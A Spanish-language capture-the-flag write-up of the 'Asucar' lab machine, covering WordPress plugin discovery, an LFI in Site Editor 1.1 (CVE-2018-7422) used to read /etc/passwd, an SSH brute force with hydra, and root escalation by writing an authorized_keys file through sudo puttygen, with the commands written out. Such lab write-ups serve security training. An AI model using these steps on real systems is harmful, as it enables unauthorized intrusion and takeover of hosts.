# Writeup: Asucar (The Hackers Labs)

> **Información del Laboratorio**
> - **Plataforma:** The Hackers Labs 
> - **Nombre de la Máquina:** Asucar 
> - **Dificultad:** Medio 
> - **Sistema Operativo:** Linux (Debian) 
> - **Técnicas clave:** Enumeración de Plugins en WordPress , Local File Inclusion (LFI), Fuerza Bruta a SSH, Escalada de Privilegios con Sudo Puttygen 


---
---
## Resumen Ejecutivo

La máquina **Asucar** es un laboratorio de *The Hackers Labs* orientado a la práctica de auditoría de seguridad en entornos **WordPress** y la escalada de privilegios en sistemas **Linux**.

---

## 1. Reconocimiento y Enumeración

### Escaneo de Servicios (Nmap)

Realizamos un escaneo de puertos sobre la dirección objetivo (`172.17.0.2`):

```bash
sudo nmap -sS -sV -sC -Pn -n -vvv -T5 -p- 172.17.0.2
```

**Puertos abiertos identificados:**
- **22/TCP:** OpenSSH 9.2p1 (Debian) 
- **80/TCP:** Apache httpd 2.4.59 (Debian) — **WordPress 6.5.3** (Título: *Asucar Moreno*) 


---

### Fuzzing Web (Gobuster)

Ejecutamos `gobuster` para mapear la estructura de directorios del servidor web:

```bash
gobuster dir \
  -u http://172.17.0.2/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -k \
  -x html,js,css,json,txt,bak,old,zip
```

**Rutas detectadas:**
- `/wordpress/` (Status: 301) 
- `/wp-admin/` (Status: 301) 
- `/wp-content/` (Status: 301) 
- `/wp-includes/` (Status: 301) 


###  WordPress Security Scanner

Ejecutamos un escaneo para ver si el WordPress tiene algún plugin:

```
 wpscan --url http://172.17.0.2/ -e p
```



---

## 2.  Análisis de Vulnerabilidades

### Detección del Plugin en WordPress

La herramienta de escaneo de WordPress no reporta plugins mediante auditoría pasiva predeterminada. Inspeccionando manualmente las referencias del código fuente HTML de la página principal, se detectan recursos del plugin **site-editor**:



```html
<link id="general-css" rel="stylesheet" href="http://asucar.dl/wp-content/plugins/site-editor/framework/assets/css/general.min.css?ver=1.1" media="all">
```

Al verificar el archivo `readme.txt` del plugin en `/wp-content/plugins/site-editor/readme.txt`, confirmamos la versión instalada:

**Versión confirmada:** `Stable tag: 1.1` .

---

### Inclusión Local de Archivos (LFI - CVE-2018-7422)

El plugin **Site Editor v1.1** contiene una vulnerabilidad de LFI en su controlador AJAX (CVE-2018-7422).


A través del parámetro `ajax_path` consultamos la ruta `/etc/passwd` para auditar las cuentas del sistema.


**Resultado:**
Obtenemos el listado de usuarios del sistema, confirmando la existencia de la cuenta **`curiosito`** (UID 1000).




---

## 3.  Acceso Inicial

### Autenticación por Fuerza Bruta (SSH)

Con el nombre de usuario auditado (`curiosito`), se realiza la prueba de autenticación contra el servicio SSH utilizando la herramienta de diccionario sobre la lista `rockyou.txt`:

```bash
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

**Credenciales identificadas:**
- **Usuario:** `curiosito` 
- **Contraseña:** `password1` 

---

### Infiltración SSH

Accedemos al sistema objetivo mediante SSH:

```bash
ssh curiosito@172.17.0.2
```

Se establece la sesión de consola interactiva como el usuario **curiosito**.

---

## 4. Escalada de Privilegios

### Verificación de Permisos Sudo

Evaluamos los privilegios asignados en el entorno:

```bash
sudo -l
```

**Configuración detectada:**
```text
User curiosito may run the following commands on target:
    (root) NOPASSWD: /usr/bin/puttygen
```

El usuario puede ejecutar `/usr/bin/puttygen` como `root` sin solicitar clave de acceso.

---

### Configuración de Claves SSH Autorizadas con Puttygen

Aprovechando que `puttygen` permite convertir y exportar claves públicas a rutas del sistema cuando se ejecuta con privilegios elevados:

1. **Generación del par de claves RSA en un directorio temporal (`/tmp`):**

   ```bash
   ssh-keygen -t rsa -f /tmp/id_rsa -N ""
   ```



2. **Exportación de la clave pública al archivo de claves autorizadas del superusuario:**

   ```bash
   sudo /usr/bin/puttygen /tmp/id_rsa -O public-openssh -o /root/.ssh/authorized_keys
   ```



3. **Conexión como superusuario:**

   ```bash
   ssh -i /tmp/id_rsa root@localhost
   ```


Confirmamos la elevación de privilegios:

```bash
whoami
# Output: root
```


¡Acceso de superusuario (**root**) completado con éxito! 🎉

## 5.  Conclusiones y Lecciones Aprendidas

1. **Enumeración Exhaustiva sobre Automatización:** Herramientas automáticas como `wpscan` no siempre detectan plugins no estándar. La inspección manual del código fuente HTML permitió descubrir la ruta activa del plugin **Site Editor v1.1**.
2. **Impacto de las Vulnerabilidades LFI:** El fallo de inclusión local de archivos (`CVE-2018-7422`) sirvió de puente crítico para mapear los usuarios del sistema (`/etc/passwd`), revelando la existencia de `curiosito`.
3. **Peligro de Credenciales Débiles en SSH:** La combinación de un nombre de usuario válido y una contraseña adivinable permitió la entrada inicial mediante fuerza bruta con `hydra`.
4. **Abuso de Configuración en Sudoers:** Otorgar permisos `sudo NOPASSWD` a binarios capaces de generar, exportar o sobrescribir archivos (como `puttygen`) elimina el aislamiento de seguridad y facilita la toma total del sistema (`root`).


